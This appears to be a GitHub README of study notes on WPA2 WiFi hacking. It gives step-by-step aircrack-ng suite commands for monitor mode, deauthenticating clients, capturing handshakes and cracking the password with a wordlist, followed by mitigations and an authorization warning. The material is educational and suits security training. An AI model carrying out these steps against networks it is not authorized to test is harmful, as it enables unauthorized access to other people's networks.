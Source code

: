 
# Intro to WiFi Hacking Notes
- Notes by Anthony Picarello (BluP3gu1n)

## **Do not use these techniques on networks you are not given permission to attack, you will get in trouble**


### Tools
	- Aircrack-ng Suite
	- WiFi Pineapple
	- FlipperZero
	- WiFi Adapter
	- WiFi Cantenna / Extender
	- WiGLE
	- hashcat
	- cewl
	- crunch

### WPA2 Attack Methodology 

1. Get WiFi Adapter online in Kali
	1. Install Drivers (Alfa WiFi Card steps below)
	    1. Install Linux Kernel Headers
	    ```bash
	    sudo apt-get install linux-headers-$(uname -r)
	    ```
	    2. Clone GitHub package to /opt folder
	    ```bash
	    cd /opt
	    sudo git clone https://github.com/morrownr/8812au-20210629.git
	    ```
	    3. Run script
	    ```bash
	    cd /opt/8812au-20210629
	    sudo ./install-driver.sh
	    ```
	    4. Type 'No' when asked to change settings and 'Yes' to reboot
	    5. After reboot Alfa Adapter should light up and should be visible with the following command:
	    ```bash
	    iwconfig
	    ```
	2. Put adapter into monitor mode
	    1. Need to run airmon-ng with check-kill option:
	    ```bash
	    sudo airmon-ng check kill
	    sudo airmon-ng start <interface>
	    ```
2. Scan WiFi networks
    ```bash
    sudo airodump-ng <interface>
    ```
	1. Need to Identify the Following Info:
		1. BSSID (Access Point MAC Address)
		2. Channel number
		3. Client MAC Address
		4. Channel number
		5. Potential passwords
3. Launch DeAuth Attack on Client while listening to traffic
	1. Traffic can be captured with either airodump or wireshark
	2. Run aireplay
		1. Make sure to send a small number of deauth packets to capture handshake
	```bash
	sudo aireplay-ng -0 1 -a <BSSID> -c <Client mac (Station)> <name of interface> 
	```
	3. Stop traffic collection
4. Crack WiFi password
	1. Use aircrack-ng or hashcat`
		1. Run against a common wordlist (rockyou.txt) or generate your own wordlist (cewl, crunch or manually)
     	```bash
      	sudo aircrack-ng -w /path/to/wordlist <name of .cap file> 
      	```
5. One password is obtained, get on the network
	1. Need to restart network manager service
   		```bash
     		sudo ifconfig <interface> up
		sudo service NetworkManager restart
     		```
	2. Connect
	3. Complete additional objectives


### Mitigation's for WiFi attacks

- Use up-to-date encryption (WPA3)
- Use long and complex passwords not tied to anything in your personal life
- Have an isolated guest network for visitors
- Use a VPN when on public WiFi with others
- Turn off WiFi on phone when out and about
- Check and double check before connecting to a WiFi network

### Links

- Alfa WiFi adapter: https://www.amazon.com/Network-AWUS036ACS-Wide-Coverage-Dual-Band-High-Sensitivity/dp/B0752CTSGD/ref=sr_1_4

- Drivers for WiFi adapter: https://docs.alfa.com.tw/Support/Linux/RTL8811AU/

- Max Vision video: https://www.youtube.com/watch?v=cO1LRhcImSc

- Darknet Diaries Episode: https://darknetdiaries.com/episode/85/

- WiFi hacking lab setup with ESP chip and Arduino: https://www.youtube.com/watch?v=IK0M5ISGevo
